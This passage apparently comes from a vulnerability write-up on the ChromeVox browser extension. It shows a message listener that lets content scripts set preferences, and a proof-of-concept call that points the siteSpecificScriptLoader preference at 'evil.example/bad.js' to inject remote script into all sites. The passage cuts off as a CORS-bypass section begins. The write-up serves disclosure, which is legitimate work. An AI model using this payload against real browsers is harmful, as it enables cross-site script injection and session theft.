 ### UXSS
I started reviewing the extension's code, and soon I noticed the following message listener in the Background script.

<div class="language-plaintext highlighter-rouge"><div class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
</pre></td><td class="rouge-code"><pre>
var target = msg['target'];
var action = msg['action'];
switch (target) {
...
  case 'Prefs':
      if (action == 'getPrefs') {
          this.prefs.sendPrefsToPort(port);
      } else if (action == 'setPref') {
          var pref = (msg['pref']);
          var announce = !!msg['announce'];
          <span style="color:DodgerBlue">cvox.ChromeVoxBackground.setPref(pref, msg['value'], announce);</span>
      }
      break;
</pre></td></tr></tbody></table></code></div></div>

Where _msg_ is the message object received from a content script. This code snippet essentially allows a content script to get or set preferences. So, I looked for a preference which might allow us to exploit this bug. And luckily, there was a preference called _siteSpecificScriptLoader_. If this preference is set to a URL, the extension would fetch the URL content and inject that as a content script to all websites 😊

With a compromised renderer, sending following message would result in a UXSS which also runs script in some privileged pages as well 😊

```
cvox.ChromeVox.host.sendToBackgroundPage({'target': 'Prefs', 'action': 'setPref',
'pref': 'siteSpecificScriptLoader', 'value': 'https://evil.example/bad.js', 'announce': true});
```

### CORS bypass
I noticed another interesting message listener.

<div class="language-plaintext highlighter-rouge"><div class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12